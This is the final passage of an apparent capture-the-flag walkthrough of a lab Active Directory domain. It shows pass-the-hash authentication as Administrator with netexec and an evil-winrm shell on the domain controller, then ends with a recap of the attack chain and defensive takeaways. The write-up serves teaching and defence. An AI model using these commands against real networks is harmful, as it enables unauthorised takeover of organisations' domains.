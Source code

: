 
# Phase 9: Domain Administrator Access

With the Administrator's NTLM hash obtained, we can now authenticate using `Pass-the-Hash` techniques to gain full administrative access to the domain.

### Administrative Access Verification

```
netexec smb 10.10.83.167 -u 'Administrator' -H '252fac7066d.................'

SMB         10.10.83.167    445    DC         [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.83.167    445    DC         [+] retro.vl\Administrator:252fac7066d................. (Pwn3d!)
```

The `(Pwn3d!)` indicator confirms that we have full administrative privileges on the domain controller, effectively compromising the entire domain.

### Interactive Shell Access

```
evil-winrm -i 10.10.83.167 -u 'Administrator' -H '252fac7066d.................'
```

This command establishes an interactive PowerShell session on the domain controller with full administrative privileges, providing complete control over the domain environment.

---

## Conclusion

This walkthrough demonstrated a complete Active Directory compromise through the exploitation of multiple security weaknesses:

1. **Information Disclosure**: Accessible SMB shares revealed critical intelligence about weak password policies and legacy system configurations.
2. **Weak Authentication**: Dictionary attacks successfully compromised the shared trainee account.
3. **Legacy System Configurations**: Pre-Windows 2000 computer account settings allowed predictable password exploitation.
4. **Certificate Services Vulnerabilities**: ESC1 misconfiguration in ADCS templates enabled privilege escalation.
5. **Pass-the-Hash**: NTLM hash extraction facilitated full domain administrative access.

### Key Takeaways

- **Defense in Depth**: Multiple security layers failed, allowing the attack to progress from initial reconnaissance to full domain compromise.
- **Legacy Configurations**: Pre-Windows 2000 compatibility settings create significant security risks in modern environments.
- **Certificate Services Security**: ADCS misconfigurations represent critical attack vectors that require careful template management.
- **Information Security**: Accessible file shares can provide attackers with valuable intelligence for subsequent attack phases.

The successful exploitation demonstrates the importance of comprehensive security assessments, proper certificate template configurations, and regular security audits of legacy system settings in Active Directory environments.
